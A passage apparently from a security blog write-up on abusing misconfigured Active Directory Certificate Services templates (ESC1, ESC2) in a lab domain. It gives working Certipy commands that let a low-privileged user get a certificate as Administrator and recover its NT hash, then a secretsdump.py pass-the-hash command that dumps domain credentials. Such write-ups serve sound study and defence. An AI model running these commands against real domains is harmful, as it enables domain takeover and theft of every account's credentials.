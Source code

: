 and then let Rubeus do its magic.   

#### Certipy

Certipy can be leveraged to request a ticket and fetch a TGT and get the pwnd user's NT hash - Thank you Oliver for Certipy <3  

```
certipy req -u 'lowpriv@mcafeelab.local' -p 'low' -target 'dc2016-2.mcafeelab.local' -ca 'mcafeelab-DC2016-2-CA-1' -template 'ESC1' -upn 'Administrator@mcafeelab.local'
certipy auth -pfx 'administrator.pfx' -dc-ip '10.55.0.2' -username 'Administrator' -domain 'mcafeelab.local'
```

We can now do some PTH thingy to pwn the domain:  

```
secretsdump.py -just-dc -hashes 'aad3b435b514...:...f7207931' 'mcafeelab.local/Administrator@dc2016-2.mcafeelab.local' 
```

<img src="/images/2022-09-16/ESC1_exploit3.png">  

## ESC2  
No matter how often I red through all the stuff I found regarding ESC2, I can't wrap my head around it completely.  
It describes the case, where there is either the ``Any purpose`` SKU set, or no SKU at all (which would be called a SubCA cert), which utlimately would allow the cert to be used for anything we like. Also low priv users need enrollment rights and no manager approval is in place.  
It is however not abusable like ESC1, if we can't specifiy the SAN.  
A cert with no SKU could additionally be used to sign other certs. Unfortunately these can't be used for domain auth by default, as the ``NTAuthCertificates``(see p. 14 of the whitepaper) object won't trust them.  
~~So the abuse cases are not clear to me. We might stumble upon a cert in a forgotten folder of some other user, maybe. But we are not able to request them. The thing that comes to my mind is relaying, and that might actually work.~~  
UPDATE:  After releasing the blog, Oliver reached out to me and helped me at quite some topics regarding ADCS. In this case you can abuse ESC2 exactly like [ESC3](#esc3), if the templates you want to target are ``Schema Version 1``, which is true for all the default templates (like ``Doman Controller``, ``Client``, ``Computer`` and so on).   
